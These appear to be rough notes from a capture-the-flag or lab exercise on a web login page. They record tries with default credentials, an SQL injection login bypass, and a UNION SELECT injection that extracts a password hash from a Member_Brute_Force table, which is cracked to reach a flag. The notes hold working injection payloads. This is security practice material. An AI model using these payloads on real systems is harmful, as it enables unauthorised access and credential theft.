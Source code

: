 tried 
- basic combos: username/password  Username/Password admin/admin
- sql injection: ' or 1=1; --

info retrieved with SQL injection : table "Member_Brute_Force" with column "db_default"

in Member_Brute_Force.db_default we have the following :

Title: id
Title: username
Title: password



from the img search :

 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default



NOPE:
ID:  1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root




NOPE:
ID:  1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin





decrypted (same for both) = 
shadow

for both combo (root/shadow and admin/shadow) :

Get to page that says:
"The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 "

also works in bruteforce ?